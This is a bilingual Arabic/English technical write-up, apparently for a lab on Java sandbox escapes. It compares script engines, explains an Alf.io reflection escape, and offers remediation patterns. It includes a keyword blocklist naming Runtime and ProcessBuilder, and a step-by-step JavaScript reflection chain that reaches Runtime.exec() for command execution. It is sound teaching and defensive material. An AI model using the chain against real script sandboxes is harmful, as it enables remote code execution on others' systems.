

# Additional Notes & Deep Technical Reference · NoScope: Finding RCE

مذكرة تقنية شاملة ودليل تشغيلي متقدم لتحليل ثغرات الهروب من بيئات العزل البرمجية (Sandbox Escapes)، وهندسة الانعكاس في جافا (Java Reflection)، وآليات عمل منصات اختبار الاختراق المؤتمتة (Autonomous AI Pentesting).

---

## 1. The Java ScriptEngine Ecosystem: A Comparative Analysis

تسمح بيئة جافا (JVM) بتضمين مفسرات لغات ديناميكية لتشغيل سكربتات المستخدمين. يوضح الجدول التالي الفوارق الأمنية والمعمارية بين أبرز هذه المحركات:

| المحرك (Engine) | المطور والإصدار | معمارية العزل (Sandboxing Model) | نقاط الضعف التاريخية | التوصية الأمنية الحالية |
| :--- | :--- | :--- | :--- | :--- |
| **Mozilla Rhino** | Mozilla Foundation (Java 6/7) | يعتمد على فئات `ClassShutter` الاختيارية وقوائم الحظر النصية. | الهروب عبر كائنات الفئات المعكوسة (`java.lang.Class`) والوصول لـ ClassLoader. | **غير موصى به** إلا مع تعطيل تام للانعكاس واستخدام فئات عزل صارمة. |
| **Nashorn** | Oracle (Java 8 - 14) | كان يدعم أمان JVM الكلاسيكي (`SecurityManager`). | سهولة تجاوز الحظر بعد إلغاء تفعيل SecurityManager في إصدارات جافا الحديثة. | **مهجور (Deprecated)** في Java 11 وتمت إزالته في Java 15. |
| **GraalVM JavaScript** | Oracle Labs (حديث) | عزل قائم على الصلاحيات المتناهية الصغر (Capability-based). | سوء الإعداد عند تفعيل `allowAllAccess(true)`. | **المعيار الذهبي الحالي** عند ضبط `HostAccess.EXPLICIT`. |

---

## 2. Deep Dive: Anatomy of CVE-2026-35482 (Reflection Sandbox Escape)

### A. The Flawed Defense: Static Blocklist
كان تطبيق Alf.io يطبق دالة تحقق تفحص الكلمات المدخلة في السكربت قبل تشغيله:
```java
// Vulnerable Static Token Checker (Conceptual)
public boolean isSafe(String scriptCode) {
    String[] blockedIdentifiers = {
        "java.lang.Runtime", "java.lang.ProcessBuilder", "System.exit",
        "java.lang.reflect", "ClassLoader"
    };
    for (String blocked : blockedIdentifiers) {
        if (scriptCode.contains(blocked)) {
            return false; // Block execution
        }
    }
    return true;
}
```

### B. The Exploit Primitive: Exposed `returnClass`
عند تهيئة بيئة تشغيل السكربت، قام المطور بتمرير متغير لمساعدة السكربت على تحديد نوع القيمة الناتجة:
```java
// Vulnerable Context Initialization
ScriptableObject.putProperty(scope, "returnClass", Context.javaToJS(String.class, scope));
```
- المشكلة: تم تمرير كائن من نوع `java.lang.Class<String>`.
- النتيجة: في لغة جافا، أي كائن `Class` يمتلك الدالة العامة:
  `public static Class<?> forName(String className) throws ClassNotFoundException`

### C. The Reflection Chain
بما أن الدالة `forName()` تقبل سلسلة نصية عادية كمعامل، فإن المهاجم يستطيع استدعاء الفئة المحظورة ديناميكياً:
```javascript
// Step 1: Evade static filter by passing string parameter to forName()
var rtClass = returnClass.forName("java.lang.Runtime");

// Step 2: Retrieve the static getRuntime() method
var getRuntimeMethod = rtClass.getMethod("getRuntime", null);

// Step 3: Invoke getRuntime() to obtain the singleton instance
var runtimeInstance = getRuntimeMethod.invoke(null, null);

// Step 4: Retrieve and invoke the exec() method to execute OS commands
var strClass = returnClass.forName("java.lang.String");
var execMethod = rtClass.getMethod("exec", strClass);
var process = execMethod.invoke(runtimeInstance, "command_here");
```

---

## 3. Autonomous AI Pentesting Architecture (The NoScope Model)

تعتمد منصات الاختبار الأمني المؤتمتة مثل NoScope على خطوط معالجة متقدمة:



1. **Active Reconnaissance:** استكشاف المسارات ولوحات التحكم الإدارية.
2. **Grammar-Aware Fuzzing:** إرسال حمولات مصممة خصيصاً لاختبار حدود مترجمات اللغات الديناميكية.
3. **Execution Verification:** التحقق غير التدميري من تنفيذ الأوامر من خلال قراءة متغيرات البيئة أو الرايات المعزولة (`THM-{ALF_CV3_PWN}`).

---

## 4. Secure Remediation Patterns (أنماط الإصلاح الهندسي الآمن)

### النمط الأول: استبدال فئة Class بواجهة مقيدة (Type Facade Pattern)
بدلاً من تمرير كائن `java.lang.Class` الحقيقي، يتم تمرير كائن مغلف يمنع الوصول للانعكاس:
```java
public final class SafeTypeDescriptor {
    private final String typeName;
    public SafeTypeDescriptor(String typeName) { this.typeName = typeName; }
    public String getTypeName() { return typeName; }
    // DOES NOT EXPOSE forName() OR getMethod()
}
```

### النمط الثاني: تقييد محرك Rhino عبر ClassShutter
```java
Context cx = Context.enter();
cx.setClassShutter(new ClassShutter() {
    @Override
    public boolean visibleToScripts(String fullClassName) {
        // Only allow safe application data models
        return fullClassName.startsWith("io.alf.client.dto.");
    }
});
```
